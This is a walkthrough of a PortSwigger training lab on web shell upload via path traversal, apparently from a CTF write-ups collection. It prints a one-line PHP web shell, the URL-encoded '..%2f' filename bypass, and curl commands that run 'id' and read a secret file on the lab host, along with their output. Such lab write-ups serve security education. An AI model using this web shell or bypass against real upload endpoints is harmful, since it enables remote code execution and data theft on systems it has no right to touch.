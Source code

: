 # Web shell upload via path traversal

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal), you'll learn: Web shell upload via path traversal! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a [secondary vulnerability](https://portswigger.net/web-security/file-path-traversal).

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-3/images/Pasted%20image%2020221216004515.png)

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-3/images/Pasted%20image%2020221216004532.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-3/images/Pasted%20image%2020221216004538.png)

In the previous labs, we found the image upload function is vulnerable.

**Let's try to upload a PHP web shell, and intercept the request via Burp Suite:**
```php
<?php system($_GET['cmd']); ?>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-3/images/Pasted%20image%2020221216005114.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-3/images/Pasted%20image%2020221216005140.png)

When we clicked the `Upload` button, **it'll send a POST request to `/my-account/avatar`, with parameter `filename`, `user` and `csrf`. Also, the `Content-Type` is `application/x-php`.**

**Let's forward that request and see what will happened:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-3/images/Pasted%20image%2020221216005426.png)

The file has been uploaded!

**In the previous labs, we also knew that the uploaded file will lives in `/files/avatars/<filename>`.**

**Let's try to access that file!**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2]
└─# curl https://0ac0001c0460fe43c218d4c000c2006a.web-security-academy.net/files/avatars/webshell.php --get --data-urlencode "cmd=id"   
<?php system($_GET['cmd']); ?>
```

Hmm... Plain text??

Let's take a step back.

In the `upload` POST request, we see a parameter called `filename`.

**What if that parameter is vulnerable to path traversal, and change that value to `../webshell.php`?**

**This might put our uploaded web shell to `/files/webshell.php`!**

Let's try that:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-3/images/Pasted%20image%2020221216010232.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-3/images/Pasted%20image%2020221216010242.png)

**File has been uploaded! Can we reach the web shell file??**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2]
└─# curl https://0ac0001c0460fe43c218d4c000c2006a.web-security-academy.net/files/webshell.php --get --data-urlencode "cmd=id"
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at 0be9fd0d8348 Port 80</address>
</body></html>
```

Still no...

**Hmm... What if the application is stripping the `/` or it's doing double URL encoding?**

**To bypass that, I'll URL encode the `/`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-3/images/Pasted%20image%2020221216010629.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-3/images/Pasted%20image%2020221216010643.png)

**Now it treats the `%2f` as the `/`!**

**And can we reach the web shell file?**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2]
└─# curl https://0ac0001c0460fe43c218d4c000c2006a.web-security-academy.net/files/webshell.php --get --data-urlencode "cmd=id"
uid=12002(carlos) gid=12002(carlos) groups=12002(carlos)
```

**Yes we can! Let's `cat` the `secret` file:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2]
└─# curl https://0ac0001c0460fe43c218d4c000c2006a.web-security-academy.net/files/webshell.php --get --data-urlencode "cmd=cat /home/carlos/secret"
Y03cdrRe1Gc4ehqVfzbsTujvCCyf8TVc
```

# What we've learned:

1. Web shell upload via path traversal